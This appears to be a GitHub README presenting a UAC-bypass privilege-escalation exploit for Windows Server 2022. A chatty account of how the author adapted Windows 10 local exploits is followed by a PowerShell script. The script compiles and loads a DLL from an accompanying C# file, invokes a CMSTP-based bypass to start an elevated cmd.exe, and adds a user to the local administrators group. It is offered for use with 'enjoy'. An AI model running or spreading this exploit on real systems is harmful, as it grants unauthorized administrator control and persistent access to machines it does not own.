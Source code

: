 # win-server2022-UAC-Bypass

# Introduction

* Hello folks, i am Patrick Hoogeveen Aka x0xr00t. 
* The quest to this hunt started 6 day's a go.... 
* The main thing i noticed when installing windows 11 and trying it out, was that i could use a windows 10 seruial key activator. 
* This version it validiated on was not included in to the installer of windows 11 wich is enterprice, mine windows activated as such successfull. 
* At that time i realized under the hood it still was the basic windows 10 for most of its structure, so with that came the next logics that came up to me. 
* Most of the previous found local exploits should possible work on widows 11 so, with that in mind i started compiling a couple things like the needed files for the Bypass. 
* I tested it and before i knew i had a cmd system32 incvoked .... i was like cewl we got local privesc :D
* So with that i started to think well the windows server just been released how likely would it be same senario is going on here. 

* Same sanario i mean under the hood previuos mentioned part above, the internal structure.
* So i started transfering the files after i saw the windows 10 like start balk in windows server 2022, which made me realize this should be working. 
* I run the files and stumbled on 2 password authentictions, and i was like ugh gotta find a way around this, so i digged around for a solution and well behold. 

* After a while the popups where gone and system32 cmd with powershell admin invoked. Cewl privesc going on here :D 

# idea to get rid of enoying popups box ... 
* The how to was pretty easy as when the cmd is called its allready elevated, so i was like lets add a user before it calls the exec of the powershell. 
* And well behold there it was working as i wanted it.
* I closed all boxes took me off the admin group rights and rerun the exploit. 

* Well behold we popped it again and i was like fuck its working nicely, added user thats non admin group to the admingroup to be able to exec elevated powershell. 


# code example of the ps1 file i made for the UAC bypass 
* This particular code needs to files to make it all work i will include all of them here in the repo. 


#!-.ps1 
#
# Author : P.Hoogeveem
# Aka    : x0xr00t
# Build  : 20210809
# Name   : UAC Bypass Win Server 2022
# Impact : Privesc 
# 
# Usage  : run the powershell file and it makes the dll and places it in dir. 


#
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\sl0puacb.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "sl0p.dll"

[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\sl0p.dll"))

[CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe") 
net localgroup administrators {userhere} /add
If (-NOT ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator))
{
  # Relaunch as an elevated process:
  Start-Process powershell.exe "-File",('"{0}"' -f $MyInvocation.MyCommand.Path) -Verb RunAs
  exit
}


# Thats it enjoy
